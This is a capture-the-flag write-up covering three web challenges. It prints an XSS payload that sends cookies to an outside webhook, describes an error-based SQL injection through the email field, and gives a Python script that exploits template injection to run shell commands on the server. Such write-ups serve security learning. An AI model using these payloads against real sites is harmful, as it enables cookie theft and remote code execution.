

# Honskay 
We can see that there is a clear XSS vulnerability in the cookies. To trigger it we should be passing an object otherwise our cokkie will be sanitized.
Gladly, it has not been 2 days since I discovered that we can pass JSON objects to `cookie-parser` by using the `j:JSON` format.

Going to the `goose.js` file we will see that the admin is setting the **FLAG** cookie with the `samesite=None` attribute, that means the flag cookie will be sent with any requests from the page.

Okay so to sum it up:

1. Submit an url to `http://localhost:9988/changehonk?newhonk=OUR_PAYLOAD`
2. OUR_PAYLOAD should initiate a request to our webhook.
3. **Final payload**
`http://localhost:9988/changehonk?newhonk=j%3A%7B%22message%22%3A%22%3Cscript%3Efetch%28%27https%3A%2F%2Fent2hhvqk200b.x.pipedream.net%3Fcookie%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E%22%7D`

** Response**

/?cookie=flag=maple{g00segoHONK}

[IMAGE_HERE]

# Bookstore

Sql injection on the email field. Actually email has a special format which is `"insert_whater_youwant"@domain`. We can use this format to perform an sqli where we will get the `texts from books where id=1` and because it's not a numerical string it will spit out the value in the form of error.

<!-- 
> I wasted a lot of time on this challenge, because the server always returned Error in the request. Actually, the error was syntax related and I had no clue why it happened but by recapturing the request from burp it worked finely. -->

[IMAGE_HERE]

# Pickle Factory

Basically an SSTI with some flashy moves. A string will be kept as it is in serialization and don't be fooled with the filter function it's not used anywhere !

```py
import requests
import jsonpickle


evil_json_pickle= jsonpickle.encode({"Attack":"{{ cycler.__init__.__globals__.os.popen('cat flag.log | grep maple').read() }}"})

print(evil_json_pickle)

data= "data="

resp= requests.post("http://pickle-factory.ctf.maplebacon.org/create-pickle", data=data+evil_json_pickle)

print("your pickle id: ", resp.text)

id=resp.text

resp2= requests.get("http://pickle-factory.ctf.maplebacon.org/view-pickle?uid="+id)


print(resp2.text[resp2.text.index('maple'):resp2.text.index('maple')+40])
```

  
